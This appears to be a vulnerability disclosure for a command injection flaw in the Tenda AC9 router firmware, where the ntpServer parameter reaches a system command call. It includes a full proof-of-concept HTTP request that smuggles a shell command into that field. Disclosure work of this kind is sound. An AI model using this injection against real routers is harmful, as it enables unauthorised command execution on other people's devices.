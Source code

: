 # Tenda AC9 V15.03.2.21_cn has a command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: Tenda ([https://tenda.com.cn](https://tenda.com.cn/))
- **Products**: WiFi Router AC9
- **Firmware download address:** https://www.tenda.com.cn/download/default.html

## Affected version

![image-20220214114428086](images/image-20220214114428086.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![Pasted image 20220526161155](images/Pasted%20image%2020220526161155.png)

![Pasted image 20220526161917](images/Pasted%20image%2020220526161917.png)

The parameter Ntpserver is passed to tip_sntp_handle->doSystemCmd. A command injection vulnerability was formed.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.2.21_cn
2. Attack with the following POC attacks

```txt
POST /goform/SetSysTimeCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 76
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/system_time.html?random=0.9150451753353981&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=25f9e794323b453885f5181f1b624d0btjotgb
Connection: close

timePeriod=86400&ntpServer="time.windows.com| ls > /tmp/f0und"&timeZone=20%3A00
```

![Pasted image 20220526155859](images/Pasted%20image%2020220526155859.png)

![Pasted image 20220526160414](images/Pasted%20image%2020220526160414.png)

